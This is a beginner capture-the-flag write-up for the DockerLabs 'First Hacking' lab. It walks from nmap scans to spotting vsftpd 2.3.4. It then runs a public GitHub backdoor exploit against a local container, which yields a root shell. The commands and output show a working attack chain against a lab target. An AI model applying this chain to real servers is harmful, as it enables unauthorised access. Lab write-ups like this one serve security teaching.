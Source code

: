 # Write Up First Hacking

**Dificulty:** Super easy<br>
**URL of dockerlabs:** https://dockerlabs.es/

## Setting the enviroment
First of all we deploy the machine with the script that comes when downloading the machine
```
❯ sudo ./auto_deploy.sh firsthacking.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Once deployed, we create the firsthacking folder, go inside and use the *mkt* utility that creates the *nmap*, *content*, *exploits* and *scripts* folders.

```
❯ mkdir firsthacking-dockerlabs
❯ cd firsthacking-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 content
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 exploits
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 nmap
drwxrwxr-x godack godack 4.0 KB Thu Aug 14 19:20:29 2025 scripts
```
## Recon
The first thing we do is a general reconnaissance with nmap on the victim machine, to obtain the open ports.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
```

Once we have the open ports, we perform a more thorough scan using reconnaissance scripts to obtain the services on each port and the version they are running.

```
❯ extractPorts allPorts
[*] Extracting information...
 
     [*] IP Address: 172.17.0.2
     [*] Open ports: 21
 
[*] Ports copied to clipboard

❯ nmap -sCV -p21 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 19:17 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds
```

In this way we discover that the service running on port 21 (FTP port) is vsftpd version 2.3.4.

## Exploit
Once we have recognized the ports and services, we realize that when searching with searchsploit, the vsftpd service with version 2.3.4 is a vulnerable service.
```
❯ searchsploit vsftpd 2.3.4
-------------------------------------------------------- ---------------------------------
 Exploit Title                                          |  Path
-------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)  | unix/remote/17491.rb
-------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

In this way, we searched on GitHub for exploits for this vulnerability, and we found this repository, we downloaded it and executed it (https://github.com/Hellsender01/vsftpd_2.3.4_Exploit).

```
❯ git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
❯ sudo python3 -m pip install pwntools
❯ python3 exploit.py 172.17.0.2
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
$  
```

And finally we have access to the machine!!
